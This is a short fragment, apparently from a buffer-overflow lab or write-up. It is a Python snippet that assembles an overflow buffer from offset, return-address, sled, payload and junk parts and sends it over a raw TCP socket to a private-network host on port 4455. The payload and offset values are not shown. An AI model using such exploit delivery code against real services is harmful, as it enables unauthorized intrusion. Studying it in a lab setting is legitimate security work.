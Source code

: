 ```py 

buffer = cmd + offset + retr + sledge + payload + junk + end

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(('192.168.128.111', 4455))

s.send(bytes(buffer, 'latin-1'))

s.recv(1024)

s.close()
```
